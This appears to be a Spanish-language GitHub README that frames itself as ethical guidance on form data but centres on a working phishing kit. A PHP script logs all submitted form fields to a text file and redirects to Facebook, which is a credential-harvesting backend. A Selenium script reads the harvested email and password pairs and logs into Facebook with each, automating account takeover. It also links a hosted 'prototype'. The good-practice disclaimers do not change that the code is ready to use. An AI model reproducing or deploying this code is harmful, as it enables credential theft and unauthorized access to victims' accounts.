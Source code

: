 # Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
Este còdigo almacena los datos de un formulario en un bloc de notas y redirige a facebook
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.
## Automatizar el inicio de sesiòn en facebook con contraseñas y usuarios almacenados en un bloc de notas
El código que proporcionaste es un ejemplo de cómo utilizar Selenium para automatizar el inicio de sesión en una página web utilizando contraseñas almacenadas en un archivo. El código realiza las siguientes acciones:

Configura el controlador de Selenium y abre el sitio web de Facebook.
Lee las credenciales desde un archivo de bloc de notas ("credenciales.txt").
Divide el archivo en bloques separados por líneas en blanco para procesar las credenciales de múltiples usuarios.
Para cada usuario en los bloques separados:
a. Divide cada bloque en líneas y crea un diccionario clave-valor para las credenciales.
b. Verifica si existen las claves 'email' y 'pass' en el diccionario.
c. Encuentra los elementos de usuario y contraseña en la página web.
d. Ingresa las credenciales en los campos correspondientes.
e. Envía el formulario de inicio de sesión.
f. Espera a que la página se cargue (puedes ajustar este tiempo).
g. Realiza cualquier acción adicional si es necesario.
Este código es útil para realizar pruebas o automatizar el proceso de inicio de sesión con múltiples cuentas. Sin embargo, ten en cuenta que su uso debe realizarse de manera ética, legal y en un entorno controlado donde tengas permiso para llevar a cabo pruebas de este tipo. Además, asegúrate de que el archivo de contraseñas se mantenga de manera segura y que las contraseñas se almacenen de forma encriptada y protegida.

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys

# Configura el controlador de Selenium y el sitio web de destino
driver = webdriver.Chrome()
driver.get("https://www.facebook.com")

# Lee las credenciales desde el archivo de bloc de notas
with open("credenciales.txt", "r") as file:
    data = file.read()

# Divide el archivo en bloques separados por líneas en blanco
usuarios = data.split('\n\n')

for usuario in usuarios:
    # Divide cada bloque en líneas y crea un diccionario clave-valor
    credenciales = {}
    for line in usuario.split('\n'):
        key, value = line.strip().split('=')
        credenciales[key] = value

    # Verifica si existen las claves 'email' y 'pass' en el diccionario
    if 'email' in credenciales and 'pass' in credenciales:
        email = credenciales['email']
        password = credenciales['pass']

        # Encuentra los elementos de usuario y contraseña
        username_element = driver.find_element_by_id("email")
        password_element = driver.find_element_by_id("pass")

        # Ingresa las credenciales
        username_element.send_keys(email)
        password_element.send_keys(password)

        # Envía el formulario de inicio de sesión
        password_element.send_keys(Keys.RETURN)

        # Espera a que la página se cargue (puedes ajustar este tiempo)
        driver.implicitly_wait(10)

        # Realiza cualquier acción adicional aquí si es necesario

# Cierra el navegador
driver.close()

```
Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/

